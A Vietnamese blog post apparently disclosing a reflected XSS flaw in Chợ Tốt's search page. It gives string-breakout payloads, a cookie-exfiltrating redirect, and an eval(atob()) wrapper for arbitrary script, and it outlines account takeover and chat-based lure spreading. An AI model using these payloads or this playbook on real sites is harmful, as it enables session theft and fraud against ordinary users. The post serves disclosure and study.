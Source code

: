 ```yaml
---
layout: post
title: Tôi đã hack Chợ Tốt như thế nào
---
```


Hôm nay thử dạo một vòng Chợ Tốt kiếm mấy món hàng cũ, thì phát hiện lỗi XSS, đây là lỗi không mới, cách thức tấn công cũng đơn giản, nhưng nhiều khi cần rất nhiều sáng tạo trong quá trình khai thác.

Thử tìm kiếm với từ khóa "iphone 7" thì thấy như thế này:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/mh0excozyx_c1.png)

Ai chà, url đẹp phết, mình thích url này rồi đấy, search key đã được bỏ dấu và thêm dấu gạch ngang cho hợp chuẩn. Thử thêm một ít html vào xem sao:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/xq1tymmaf1_c2.png)

Rất nhiều nơi, search key đã được entities, tuy nhiên vì lý do nào đó, search key trong đoạn javascript này đã không được xử lý.
Vấn đề là, từ khóa nó đang nằm trong string, nên alert không xảy ra hiện tượng gì. 

Cuối cùng mình sửa search key như sau:

{% highlight javascript %}
iphone 7" }; alert("something went wrong"); var a = { "a":"
{% endhighlight %}

Thì nhận được alert:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/sk8bcvtkaw_c3.png)

Bạn thấy không? Mình muốn nói đến cái search key trên, từ một property của object, nó đã tách thành 2 object, và alert nằm giữa một cách đẹp đẽ và tuyệt vời.

OK, giờ thử redrect đến 1 trang ngoài cùng với cookie của người dùng xem sao, mình thử code này:

```javascript
iphone 7" }; window.location="http://google.com/" + document.cookie; var a = { "a":"
```

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/o7l9sidows_c4.png)

Cái lề gì thốn, coder đã cẩn thận bỏ dấu gạch chéo // và phần sau của search key đi, cũng như lọc một số từ đặc biệt trong chuỗi, như vậy là không thể tương tác gì url bên ngoài được? Không, phải nghĩ cách khác. Cuối cùng thì mình đã tìm ra cách hoàn hảo nhất là đây:

```javascript
iphone 7" }; eval(atob("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")); var a = { "a":"
```

Với xxxxx là mã hóa base64 của một đoạn code javascript bất kỳ, tức là chúng ta có thể chèn bất kỳ đoạn javascript nào vào Chợ Tốt. Ví dụ sau đây để alert cookie:

```javascript
iphone 7" }; eval(atob("YWxlcnQoIGRvY3VtZW50LmNvb2tpZSk=")); var a = { "a":"
```

Và đây là kết quả:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/t9g7rdgqhh_9.png)

Đã đến bước này, thì các bạn đã biết mình sẽ làm gì tiếp theo rồi phải không? Mình đăng 1 bài viết mua bán với giá rất rẻ, trong đó có kèm link, lấy cookie để vào được tài khoản của những người không may click vào link.

Nhưng không dừng lại ở đó, khi đã vào được tài khoản của vài thành viên khác, mình có thể mở rộng hơn qua chính công cụ chat của Chợ Tốt bằng tokenKey đã lấy được. Viết script tự động chat với nhiều thành viên khác với nội dung bán đồ rất rẻ, và kèm link để câu.

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/j5w20u6nil_c6.png)

Tâm lý là khi được chat về sản phẩm đang bán, người dùng rất dễ click vào link, social engineering khá hiệu quả trong trường hợp này.

Hiện tại mình đã report với Chợ Tốt, nhưng họ có vẻ không quan tâm lắm, chỉ nói chung chung là sẽ kiểm tra.

Mình sẽ update tình hình lên bài viết này.

> Update 1: 
> Mình đã gửi report đến Chợ Tốt, và sau 10 tiếng nhận lại được 1 email phản hồi yêu cầu mô tả tái hiện lỗi, mình đã gửi lại và chưa nhận được hồi đáp. Lỗi chưa được fix.
> 
> Update 2:
> Đến 15h ngày 23/11: Lỗi đã được lẳng lặng fix bằng một cách củ chuối là: remove ký tự đóng mở ngoặc đơn () trong search key, vẫn có thể bypass được,  chưa có thông báo gì đến mình, tất cả là một email chung chung.

